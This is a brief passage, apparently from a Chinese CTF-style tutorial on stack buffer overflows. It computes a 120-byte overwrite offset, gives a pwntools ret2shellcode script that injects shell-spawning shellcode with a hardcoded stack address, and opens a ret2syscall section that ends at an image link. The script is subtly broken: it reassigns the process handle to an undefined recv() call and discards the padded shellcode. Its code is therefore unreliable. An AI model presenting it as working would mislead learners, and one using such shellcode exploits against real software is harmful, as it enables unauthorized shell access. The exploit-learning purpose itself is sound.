需要覆盖的垃圾字长

```plain
0xd0-0x60=112
```

但是要覆盖 previous ebp 还是要按照 64 的数据结构，所以要再加 8 字节

```plain
from pwn import *
context.arch = "amd64"
io= process("./ret2stack")
io = recv()
shellcode = asm(shellcraft.amd64.sh())
shellcode.ljust(120,b'a')
buf = 0x7fffffffe0e0
payload = shellcode + p64(buf)
io.sendline(payload)
io.interactive()
```

## ret2syscall

这个于前几个的区别在于

```plain
无法找到一步到位调用 shell 的地址，需要找到多个地址从而获取 shell
```

返回系统调用

[![](assets/1701612384-6af491a612f1d744e7c7cf98f45c434a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230629203138-e4d3cbca-1678-1.png)
